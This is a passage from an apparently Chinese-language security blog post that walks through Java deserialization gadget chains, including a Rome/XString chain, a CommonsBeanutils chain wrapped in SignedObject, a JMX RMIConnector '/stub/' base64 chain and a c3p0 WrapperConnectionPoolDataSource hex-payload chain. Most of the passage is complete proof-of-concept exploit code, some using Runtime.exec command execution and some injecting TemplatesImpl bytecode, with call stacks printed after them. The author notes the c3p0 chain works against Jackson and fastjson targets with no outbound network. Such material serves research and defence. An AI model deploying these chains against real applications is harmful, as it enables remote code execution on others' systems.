at java.util.AbstractMap.equals(AbstractMap.java:472)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1221)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.security.SignedObject.getObject(SignedObject.java:180)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.EqualsBean.beanEquals(EqualsBean.java:146)
at com.sun.syndication.feed.impl.EqualsBean.equals(EqualsBean.java:103)
at java.util.AbstractMap.equals(AbstractMap.java:472)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1221)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.Exp.equalsBeanPoc.unserialize(equalsBeanPoc.java:65)
at org.example.Exp.equalsBeanPoc.main(equalsBeanPoc.java:31)
```

题外话，在我学习 Rome 反序列化的时候，我查看了好友 infernity 的博客，发现其中有一条链子并不完美，不能成功执行命令，因为无法触发 toString，今天一看其实他就少了点方法 [https://infernity.top/2025/03/01/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96ROME%E5%8E%9F%E7%94%9F%E9%93%BE/#xString%E9%93%BE](https://infernity.top/2025/03/01/java反序列化ROME原生链/#xString链)

我写出的成功 poc

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class Test {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "a");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
        Hashtable payload = getPayload(XString.class, toStringBean);

        byte[] data = serialize(payload);
        unserialize(data);
    }

    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        XString xStringInstance = new XString("test");
        EqualsBean bean = new EqualsBean(clazz, xStringInstance);
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", payloadObj);
        return table;
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.EqualsBean.hashCode(EqualsBean.java:176)
at java.util.Objects.hashCode(Objects.java:98)
at java.util.HashMap$Node.hashCode(HashMap.java:296)
at java.util.AbstractMap.hashCode(AbstractMap.java:507)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1218)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.Exp.Test.unserialize(Test.java:62)
at org.example.Exp.Test.main(Test.java:27)
```

### 无CC依赖的CB

这个触发 getter 方法的方式，我相信各位大哥儿都是没齿难忘的，经常需要用到

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.security.*;
import java.util.PriorityQueue;

public class CBPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        PriorityQueue queue1 = getPayload(obj, "outputProperties");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));

        PriorityQueue queue2 = getPayload(signedObject, "object");

        byte[] data=serialize(queue2);
        unserialize(data);
    }

    public static PriorityQueue getPayload (Object object, String string) throws Exception{
        BeanComparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", string);
        setFieldValue(queue, "queue", new Object[]{object, object});
        return queue;
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:2128)
at org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1279)
at org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(PropertyUtilsBean.java:809)
at org.apache.commons.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:885)
at org.apache.commons.beanutils.PropertyUtils.getProperty(PropertyUtils.java:464)
at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:163)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:687)
at java.util.PriorityQueue.heapify(PriorityQueue.java:736)
at java.util.PriorityQueue.readObject(PriorityQueue.java:795)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.security.SignedObject.getObject(SignedObject.java:180)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:2128)
at org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1279)
at org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(PropertyUtilsBean.java:809)
at org.apache.commons.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:885)
at org.apache.commons.beanutils.PropertyUtils.getProperty(PropertyUtils.java:464)
at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:163)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:687)
at java.util.PriorityQueue.heapify(PriorityQueue.java:736)
at java.util.PriorityQueue.readObject(PriorityQueue.java:795)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.Exp.CBPoc.unserialize(CBPoc.java:58)
at org.example.Exp.CBPoc.main(CBPoc.java:30)
```

## RMIConnector

找到`RMIConnector#findRMIServerJRMP()`，

```java
private RMIServer findRMIServerJRMP(String base64, Map<String, ?> env, boolean isIiop)
        throws IOException {
        // could forbid "iiop:" URL here -- but do we need to?
        final byte[] serialized;
        try {
            serialized = base64ToByteArray(base64);
        } catch (IllegalArgumentException e) {
            throw new MalformedURLException("Bad BASE64 encoding: " +
                    e.getMessage());
        }
        final ByteArrayInputStream bin = new ByteArrayInputStream(serialized);

        final ClassLoader loader = EnvHelp.resolveClientClassLoader(env);
        final ObjectInputStream oin =
                (loader == null) ?
                    new ObjectInputStream(bin) :
                    new ObjectInputStreamWithLoader(bin, loader);
        final Object stub;
        try {
            stub = oin.readObject();
        } catch (ClassNotFoundException e) {
            throw new MalformedURLException("Class not found: " + e);
        }
        return (RMIServer)stub;
    }
```

先Base64解码，包装成数组，然后反序列化，满足条件，往上看调用 findRMIServer

```java
private RMIServer findRMIServer(JMXServiceURL directoryURL,
            Map<String, Object> environment)
            throws NamingException, IOException {
        final boolean isIiop = RMIConnectorServer.isIiopURL(directoryURL,true);
        if (isIiop) {
            // Make sure java.naming.corba.orb is in the Map.
            environment.put(EnvHelp.DEFAULT_ORB,resolveOrb(environment));
        }

        String path = directoryURL.getURLPath();
        int end = path.indexOf(';');
        if (end < 0) end = path.length();
        if (path.startsWith("/jndi/"))
            return findRMIServerJNDI(path.substring(6,end), environment, isIiop);
        else if (path.startsWith("/stub/"))
            return findRMIServerJRMP(path.substring(6,end), environment, isIiop);
        else if (path.startsWith("/ior/")) {
            if (!IIOPHelper.isAvailable())
                throw new IOException("iiop protocol not available");
            return findRMIServerIIOP(path.substring(5,end), environment, isIiop);
        } else {
            final String msg = "URL path must begin with /jndi/ or /stub/ " +
                    "or /ior/: " + path;
            throw new MalformedURLException(msg);
        }
    }
```

匹配 /stub/，如果可以匹配到就反序列化 / 后面的base64数据，往上看什么调用了 findRMIServer，找到

两个





但是 doStart 是 protected 修饰的，所以只能想着调用 connnect，但是这个玩意非常难调，所以这个二次反序列化基本只能用于CC链，可以直接用 InvokerTransformer 去调用～

以CC6为例子，poc 如下

```java
package org.example.Exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class RMIConnectorPoc {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"open -a Calculator"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Field transformersField = ChainedTransformer.class.getDeclaredField("iTransformers");
        transformersField.setAccessible(true);
        transformersField.set(chainedTransformer, transformers);

        String s = serialize2Base64(map2);
        run(s);
    }

    public static void unserialize(byte[] ser) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(ser));
        objectInputStream.readObject();
        System.out.println("Unserialize Ok!");
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        System.out.println("Serialize Ok!");
        return byteArrayOutputStream.toByteArray();
    }

    public static void run(String base64) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        Transformer fakeConnect = new ConstantTransformer(1);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, fakeConnect);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);
        HashMap<Object, Object> hashMap1 = new HashMap<>();
        hashMap1.put(tiedMapEntry, "2");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap, "factory", new InvokerTransformer("connect", null, null));

        byte[] serialize = serialize(hashMap1);
        unserialize(serialize);
    }
}
```

调用栈

```java
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:121)
at java.util.HashMap.hash(HashMap.java:338)
at java.util.HashMap.readObject(HashMap.java:1397)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at javax.management.remote.rmi.RMIConnector.findRMIServerJRMP(RMIConnector.java:2009)
at javax.management.remote.rmi.RMIConnector.findRMIServer(RMIConnector.java:1926)
at javax.management.remote.rmi.RMIConnector.connect(RMIConnector.java:287)
at javax.management.remote.rmi.RMIConnector.connect(RMIConnector.java:249)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:126)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:121)
at java.util.HashMap.hash(HashMap.java:338)
at java.util.HashMap.readObject(HashMap.java:1397)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.Exp.RMIConnectorPoc.unserialize(RMIConnectorPoc.java:77)
at org.example.Exp.RMIConnectorPoc.run(RMIConnectorPoc.java:97)
at org.example.Exp.RMIConnectorPoc.main(RMIConnectorPoc.java:53)
```

## WrapperConnectionPoolDataSource

`WrapperConnectionPoolDataSource#setUserOverridesAsString`跟进到这个类中，发现一个东西

```java
public synchronized void setUserOverridesAsString(String userOverridesAsString) throws PropertyVetoException {
    String oldVal = this.userOverridesAsString;
    if (!this.eqOrBothNull(oldVal, userOverridesAsString)) {
        this.vcs.fireVetoableChange("userOverridesAsString", oldVal, userOverridesAsString);
    }

    this.userOverridesAsString = userOverridesAsString;
}
```

继续跟进 fireVetoableChange

```java
public void fireVetoableChange(PropertyChangeEvent event)
            throws PropertyVetoException {
        Object oldValue = event.getOldValue();
        Object newValue = event.getNewValue();
        if (oldValue == null || newValue == null || !oldValue.equals(newValue)) {
            String name = event.getPropertyName();

            VetoableChangeListener[] common = this.map.get(null);
            VetoableChangeListener[] named = (name != null)
                        ? this.map.get(name)
                        : null;

            VetoableChangeListener[] listeners;
            if (common == null) {
                listeners = named;
            }
            else if (named == null) {
                listeners = common;
            }
            else {
                listeners = new VetoableChangeListener[common.length + named.length];
                System.arraycopy(common, 0, listeners, 0, common.length);
                System.arraycopy(named, 0, listeners, common.length, named.length);
            }
            if (listeners != null) {
                int current = 0;
                try {
                    while (current < listeners.length) {
                        listeners[current].vetoableChange(event);
                        current++;
                    }
                }
                catch (PropertyVetoException veto) {
                    event = new PropertyChangeEvent(this.source, name, newValue, oldValue);
                    for (int i = 0; i < current; i++) {
                        try {
                            listeners[i].vetoableChange(event);
                        }
                        catch (PropertyVetoException exception) {
                            // ignore exceptions that occur during rolling back
                        }
                    }
                    throw veto; // rethrow the veto exception
                }
            }
        }
    }
```



vetoableChange 这里监听事件会直接到 parseUserOverridesAsString



```java
public static Map parseUserOverridesAsString(String userOverridesAsString) throws IOException, ClassNotFoundException {
    if (userOverridesAsString != null) {
        String hexAscii = userOverridesAsString.substring("HexAsciiSerializedMap".length() + 1, userOverridesAsString.length() - 1);
        byte[] serBytes = ByteUtils.fromHexAscii(hexAscii);
        return Collections.unmodifiableMap((Map)SerializableUtils.fromByteArray(serBytes));
    } else {
        return Collections.EMPTY_MAP;
    }
}
```

处理 hexAscii 的时候会跳过头部和尾部，也就是截断，跟进到 fromByteArray 方法

```java
public static Object fromByteArray(byte[] var0) throws IOException, ClassNotFoundException {
    Object var1 = deserializeFromByteArray(var0);
    return var1 instanceof IndirectlySerialized ? ((IndirectlySerialized)var1).getObject() : var1;
}
```

就到了 getObject 了，而这条利用链就被串起来了，并且也不需要找什么触发 setter 的玩意，可以用于 jackson、fastjson 不出网的情况

可以我以 CC6、CB、fastjson 为例子

CC6Poc

```java
package org.example.Exp;

import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import com.mchange.lang.ByteUtils;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class C3P0WrapperPoc {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };

        Transformer[] realTransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"open -a Calculator"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "pwn");
        HashMap expMap = new HashMap();
        expMap.put(tiedMapEntry, "value");
        lazyMap.remove("pwn");

        setFieldValue(chainedTransformer, "iTransformers", realTransformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        String hexPayload = ByteUtils.toHexAscii(baos.toByteArray());
        String c3p0Payload = "HexAsciiSerializedMap:" + hexPayload + "!";

        WrapperConnectionPoolDataSource dataSource = new WrapperConnectionPoolDataSource();
        dataSource.setUserOverridesAsString(c3p0Payload);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

调用栈

```java
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:121)
at java.util.HashMap.hash(HashMap.java:338)
at java.util.HashMap.readObject(HashMap.java:1397)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at com.mchange.v2.ser.SerializableUtils.deserializeFromByteArray(SerializableUtils.java:144)
at com.mchange.v2.ser.SerializableUtils.fromByteArray(SerializableUtils.java:123)
at com.mchange.v2.c3p0.impl.C3P0ImplUtils.parseUserOverridesAsString(C3P0ImplUtils.java:318)
at com.mchange.v2.c3p0.WrapperConnectionPoolDataSource$1.vetoableChange(WrapperConnectionPoolDataSource.java:110)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:375)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:271)
at com.mchange.v2.c3p0.impl.WrapperConnectionPoolDataSourceBase.setUserOverridesAsString(WrapperConnectionPoolDataSourceBase.java:387)
at org.example.Exp.C3P0WrapperPoc.main(C3P0WrapperPoc.java:59)
```

CBPoc

```java
package org.example.Exp;

import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import com.mchange.lang.ByteUtils;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class C3P0WrapperPoc {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()
        });
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(queue);
        oos.close();

        String hexPayload = ByteUtils.toHexAscii(baos.toByteArray());
        String c3p0Payload = "HexAsciiSerializedMap:" + hexPayload + "!";

        WrapperConnectionPoolDataSource dataSource = new WrapperConnectionPoolDataSource();
        dataSource.setUserOverridesAsString(c3p0Payload);
    }

    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
